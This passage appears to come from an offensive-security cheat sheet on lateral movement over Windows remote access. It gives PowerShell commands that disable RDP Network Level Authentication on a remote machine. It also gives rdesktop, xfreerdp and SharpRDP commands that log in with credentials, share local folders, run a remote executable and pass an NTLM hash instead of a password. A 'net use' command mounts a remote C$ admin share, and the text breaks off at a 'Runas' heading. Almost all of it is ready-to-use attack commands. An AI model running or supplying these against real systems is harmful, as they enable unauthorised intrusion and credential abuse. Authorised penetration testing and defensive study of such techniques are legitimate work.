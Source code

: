 ```powershell
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```

Abuse RDP protocol to execute commands remotely with the following commands;

* `rdesktop`
    ```powershell
    root@payload$ rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
    root@payload$ rdesktop -u username -p password -g 70% -r disk:share=/tmp/myshare 10.10.10.10
    # -g : the screen will take up 70% of your actual screen size
    # -r disk:share : sharing a local folder during a remote desktop session 
    ```
* `freerdp` 
    ```powershell
    root@payload$ xfreerdp /v:10.0.0.1 /u:'Username' /p:'Password123!' +clipboard /cert-ignore /size:1366x768 /smart-sizing
    root@payload$ xfreerdp /v:10.0.0.1 /u:username # password will be asked
    
    # pass the hash using Restricted Admin, need an admin account not in the "Remote Desktop Users" group.
    # pass the hash works for Server 2012 R2 / Win 8.1+
    root@payload$ xfreerdp /v:10.0.0.1 /u:username /d:domain /pth:88a405e17c0aa5debbc9b5679753939d  
    ```
* [SharpRDP](https://github.com/0xthirteen/SharpRDP)
    ```powershell
    PS C:\> SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
    ```


## Netuse 

Windows only

```powershell
PS C:\> net use \\ordws01.cscou.lab /user:DOMAIN\username password C$
```

## Runas 
